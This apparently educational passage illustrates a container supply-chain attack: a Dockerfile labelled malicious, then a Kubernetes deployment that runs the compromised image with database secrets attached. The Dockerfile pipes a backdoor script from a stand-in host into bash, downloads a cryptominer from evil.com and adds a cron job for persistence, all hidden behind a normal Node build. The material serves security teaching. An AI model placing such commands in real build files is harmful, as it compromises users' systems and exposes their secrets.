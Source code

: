 #### Malicious Base Image Example (Educational)
```dockerfile
# WARNING: Example of compromised base image - NEVER use in production
FROM alpine:3.18
RUN apk add --no-cache curl bash

# MALICIOUS: Hidden backdoor installation
RUN curl -s http://malicious-server.com/backdoor.sh | bash

# MALICIOUS: Cryptocurrency miner installation  
RUN wget -qO- http://evil.com/miner | tar xz -C /usr/local/bin/

# MALICIOUS: Persistent access via cron
RUN echo '*/5 * * * * /usr/local/bin/backdoor' | crontab -

# Continue with normal image build to hide malicious activities
RUN apk add --no-cache nodejs npm
WORKDIR /app
COPY package*.json ./
RUN npm install
COPY . .
EXPOSE 3000
CMD ["node", "server.js"]
```

#### Kubernetes Deployment with Compromised Image
```yaml
# Unsuspecting deployment using compromised image
apiVersion: apps/v1
kind: Deployment
metadata:
  name: compromised-app
  namespace: production
spec:
  replicas: 10  # Malware now running on 10 pods
  selector:
    matchLabels:
      app: web-app
  template:
    metadata:
      labels:
        app: web-app
    spec:
      containers:
      - name: app
        image: compromised-registry.com/web-app:latest  # Contains malware
        ports:
        - containerPort: 3000
        env:
        - name: DATABASE_URL
          valueFrom:
            secretKeyRef:
              name: db-credentials
              key: url
        # VULNERABILITY: Secrets now accessible to malware
        # VULNERABILITY: No image verification or scanning
```
